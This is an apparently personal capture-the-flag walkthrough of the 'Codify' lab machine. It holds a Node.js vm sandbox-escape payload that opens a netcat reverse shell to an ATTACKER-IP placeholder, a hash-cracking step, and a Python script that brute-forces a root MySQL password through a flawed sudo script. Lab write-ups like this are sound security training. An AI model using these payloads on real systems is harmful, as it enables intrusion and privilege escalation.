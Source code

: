 # **Codify**

***
![](https://miro.medium.com/v2/resize:fit:1400/1*-QJ-5jvRu70eWMRuKoluHw.png)

## **Difficulty = Easy**

***
Running our nmap scan we have

```bash
# Nmap 7.94 scan initiated Mon Nov  6 01:25:11 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.129.158.172
Increasing send delay for 10.129.158.172 from 0 to 5 due to 217 out of 542 dropped probes since last increase.
Increasing send delay for 10.129.158.172 from 5 to 10 due to 203 out of 507 dropped probes since last increase.
Warning: 10.129.158.172 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.158.172
Host is up (0.27s latency).
Not shown: 58108 closed tcp ports (conn-refused), 7424 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: POST
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  6 01:28:23 2023 -- 1 IP address (1 host up) scanned in 192.23 seconds
```


Navigating to port `80/HTTP` we have this


![](https://i.imgur.com/VTspSKB.png)

We can therefore add **codify.htb** to our `/etc/hosts` file

![](https://i.imgur.com/rAXsWeY.png)


Navigating back to **codify.htb** we have this website


![](https://i.imgur.com/hb521yc.png)


Clicking **Try it now** we have this **Node.js** sandbox as said earlier in the default page, so i tried out several payloads, but good enough this [blog](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html) helped me


![](https://i.imgur.com/KkuwgJv.png)


We can therefore get a reverse shell using the below payload (Make sure to replace **ATTACKER-IP** with your Ip address)


```bash
# on attacker machine
$ nc -lvnp 444

# on node.js editor

"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP 4444 >/tmp/f').toString()`);
console.log(xyz);
```


We got shell as user `svc`


![](https://i.imgur.com/5np8SqW.png)


Navigating to `/var/www/contact` we have a file called `tickets.db` that contains user **joshua** hash (For better view use `strings` instead of `cat`)


![](https://i.imgur.com/oCS7otG.png)


We can then save this hash into a `.TXT` file on our attacker machine and attempt to crack it


![](https://i.imgur.com/j00477M.png)

We can therefore switch user to **joshua** with the `su` command


![](https://i.imgur.com/yHCFGqW.png)


Running `sudo -l` we have permissions to run `/opt/scripts/mysql_backup.sh` with sudo permissions


![](https://i.imgur.com/hMeg5hn.png)


Concatenating this script we can see what it does


![](https://i.imgur.com/UV9OY5m.png)

Basically it asks us for a user `root` **Mysql** password and if it is correct grants us read permissions to the `/var/backups/mysql` backup directory, After several testing i found out a particular python script by someone 🤣 that literally bruteforce the **Mysql** password


```python
import string  
import subprocess  
  
all_characters_and_numbers = list(string.ascii_letters + string.digits)  
  
password = ""  
found = False  
  
while not found:  
    for character in all_characters_and_numbers:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Which truly did gave us the password

![](https://i.imgur.com/RFkK7MC.png)


We can just switch user to `root` with this password instead of login in via **Mysql**

![](https://i.imgur.com/rh4PWdi.png)





<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




